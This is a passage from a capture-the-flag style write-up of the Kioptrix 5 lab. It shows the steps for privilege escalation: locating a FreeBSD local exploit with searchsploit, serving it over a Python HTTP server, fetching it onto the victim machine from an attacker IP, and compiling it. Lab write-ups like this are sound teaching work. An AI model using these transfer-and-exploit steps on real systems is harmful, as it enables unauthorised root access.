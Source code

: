 Using `searchsploit`, I found two exploits:

![Desktop View](/assets/img/posts/2024-06-21-kioptrix-5-boot-to-root/pic25.png)

Let’s try the first one. Bring the source code to the current working directory using this command:

```shell
searchsploit -m freebsd/local/28718.c
```

Next, to transfer the file to the victim machine, we are going to run a simple HTTP server using Python:

```shell
python3 -m http.server 80
```

Now, on the victim machine, navigate to a directory where you have write permissions. `/tmp`{: .filepath} is commonly used for that purpose. After that download the file. I tried to do this using `wget` but it didn’t work so I went for `fetch`:

```shell
fetch http://192.168.109.131:80/28718.c
```

![Desktop View](/assets/img/posts/2024-06-21-kioptrix-5-boot-to-root/pic26.png)

The final step is to compile and run the exploit:

```shell
gcc -o privesc 28718.c
```

